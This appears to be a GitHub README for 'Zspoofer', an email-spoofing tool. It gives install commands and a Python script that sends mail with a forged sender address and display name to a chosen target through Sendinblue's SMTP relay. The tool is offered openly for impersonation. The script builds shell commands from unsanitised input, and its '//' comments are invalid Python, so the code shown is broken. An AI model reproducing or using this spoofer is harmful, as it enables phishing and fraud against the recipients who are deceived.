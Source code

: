 # Zspoofer
Email spoofer by zereza

## Installation:
```bash
sudo apt install sendemail
git clone https://github.com/0x9B0x7A/zspoofer/
```
## Usage:
You must have an account in [sendinblue.com](https://www.sendinblue.com).

In order to use the script you will need to modify the script and put your [sendinblue](https://www.sendinblue.co) credentials here:
```python
#!/usr/bin/env python3
import os
def main():
    print(''' _________  ____   ___   ___  _____ 
|__  / ___||  _ \ / _ \ / _ \|  ___|
  / /\___ \| |_) | | | | | | | |_   
 / /_ ___) |  __/| |_| | |_| |  _|  
/____|____/|_|    \___/ \___/|_|    ''')
    print("\n\nTool developed by zereza\n\n")
    username = "USERNAME FROM SENDINBLUE HERE" // <----------------------- HERE
    password = "PASSWORD FROM SENDINBLUE HERE" // <----------------------- AND HERE
    target = input("The target's email  ---->    ")
    name = input("\n\nThe target's name [OPTIONAL]  ---->   ")
    sender = input("\n\nThe sender of the email   ---->   ")
    subject = input("\n\nThe email subject  ---->   ")
    message = input("\n\nThe email message  ---->   ")
    
    if name == '':
        os.system('sendemail -xu '+username+' -xp '+password+' -f '+sender+' -t '+target+' -u '+subject+' -m '+message+' -s "smtp-relay.sendinblue.com:587"')
    else:
        os.system('sendemail -xu '+username+' -xp '+password+' -f '+sender+' -t '+target+' -u '+subject+' -m '+message+' -s "smtp-relay.sendinblue.com:587" -o message-header="From '+name+'<'+sender+'>"')
    
if __name__ == '__main__':
    main()
```
